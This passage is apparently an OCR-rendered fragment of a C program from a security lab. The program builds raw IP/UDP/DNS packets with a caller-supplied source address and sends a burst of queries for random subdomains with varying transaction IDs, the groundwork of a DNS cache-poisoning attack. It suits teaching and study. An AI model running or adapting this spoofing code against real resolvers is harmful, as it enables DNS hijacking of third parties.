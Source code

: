 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
    ip->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));

    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));


    // Prevent kernel from filling up DNS packet with its information
    if(setsockopt(sd, IPPROTO_IP, IP_HDRINCL, val, sizeof(one))<0 )
    {
        printf("error\n");
        exit(-1);
    }

    int count = 0;
    int trans_id = 3000;
    while(count < 100)
    {


// This is to generate queries for random sub-domains xxxxx.example.com
        dns->query_id=trans_id+count;
        udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));
// Recalculate the checksum for the UDP packet

        // Send the packet out.
        if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
            printf("packet send error %d which means %s\n",errno,strerror(errno));
        count++;
    }
    close(sd);

    return 0;
}

int main(int argc, char *argv[])
{

// This is to check the argc number
    if(argc != 3)
    {
        printf("- Invalid parameters!!!\nPlease enter 2 ip addresses\nFrom first to last:src_IP  dest_IP  \n");
        exit(-1);
    }


// socket descriptor
    int sd;

// buffer to hold the packet
    char buffer[PCKT_LEN];

// set the buffer to 0 for all bytes
    memset(buffer, 0, PCKT_LEN);

    // Our own headers' structures

    struct ipheader *ip = (struct ipheader *) buffer;

    struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));

    struct dnsheader *dns=(struct dnsheader*) (buffer +sizeof(struct ipheader)+sizeof(struct udpheader));

// data is the pointer points to the first byte of the dns payload
    char *data=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader));


////////////////////////////////////////////////////////////////////////
// dns fields(UDP payload field)
// relate to the lab, you can change them. begin:
////////////////////////////////////////////////////////////////////////


\end{verbatim}
\end{document}
